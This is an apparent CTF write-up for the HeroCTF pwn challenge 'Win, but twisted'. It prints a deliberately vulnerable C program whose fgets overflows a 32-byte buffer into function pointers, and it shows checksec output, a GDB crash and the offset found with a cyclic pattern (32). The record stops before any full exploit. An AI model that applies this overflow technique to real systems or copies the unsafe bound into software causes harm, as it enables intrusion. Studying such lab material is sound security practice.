 # Win, but twisted

![Screenshot_16](https://user-images.githubusercontent.com/67475596/116267591-d833f880-a77c-11eb-90da-a6fcc7751806.png)

In this challenge we were given a binary and a C file, let's analyze them.
```C
#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <sys/types.h>



int UNLOCKED = 0;



void set_lock()

{

    printf("Setting lock !");

    UNLOCKED = 1;

}



void shell()

{

    printf("In shell function ! ");

    if (UNLOCKED == 1)

    {

        printf("Getting shell ! ");

        setreuid(geteuid(), geteuid());

        system("/bin/sh");

    }



    

}



void hello_hero(int hero)

{

    printf("It looks like that's something a Hero would say\n");

}



void look_like()

{

    printf("Please keep being one. :)\n");

}



int main()

{

    int (*look)() = look_like;

    int (*hello)() = hello_hero;

    char buffer[32];



    printf("What would a hero say ?\n>>> ");

    fgets(buffer, 44, stdin);

    hello();

    look();



}
```
Security:
```bash
checksec WinButTwisted
[*] '/home/kali/Desktop/CTF/HeroCTF/pwn/WinButTwisted'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Uhhm it seems crashed.. 
```bash
./WinButTwisted       
What would a hero say ?
>>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./WinButTwisted
```
Now let's find the exactly offset for our padding.
Create a cyclic string in python with the Pwntools library.
```bash
>>> cyclic_metasploit(40)
b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A'
```
Run the binary into GDB 
```gdb
gef➤  r
Starting program: /home/kali/Desktop/CTF/HeroCTF/pwn/WinButTwisted 
What would a hero say ?
>>> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A

Program received signal SIGSEGV, Segmentation fault.
0x31624130 in ?? ()
──────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x31624130 ("0Ab1"?)
$ebx   : 0x080e9000  →  0x00000000
$ecx   : 0x080ecde9  →  0x00000000
$edx   : 0xfbad0088
$esp   : 0xffffd0bc  →  0x08049add  →  <main+118> mov eax, DWORD PTR [ebp-0xc]
$ebp   : 0xffffd0f8  →  0x00000800
$esi   : 0x080e900c  →  0x0806d190  →  <__strcpy_ssse3+0> endbr32 
$edi   : 0x0804823c  →  0x00000000
$eip   : 0x31624130 ("0Ab1"?) 
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
──────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd0bc│+0x0000: 0x08049add  →  <main+118> mov eax, DWORD PTR [ebp-0xc]       ← $esp
0xffffd0c0│+0x0004: 0x080e9094  →  0x080ea8c0  →  0x00000000
0xffffd0c4│+0x0008: 0x00000000
0xffffd0c8│+0x000c: "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0cc│+0x0010: "a1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d0│+0x0014: "2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d4│+0x0018: "Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d8│+0x001c: "a5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x31624130
────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "WinButTwisted", stopped 0x31624130 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```
Here we can see that our EIP register has been overwritten by the pattern 
```gdb
$eip   : 0x31624130 ("0Ab1"?) 
```

Now we have the ingredients to calculate the offset
```bash
>>> cyclic_metasploit_find(0x31624130)
32
```
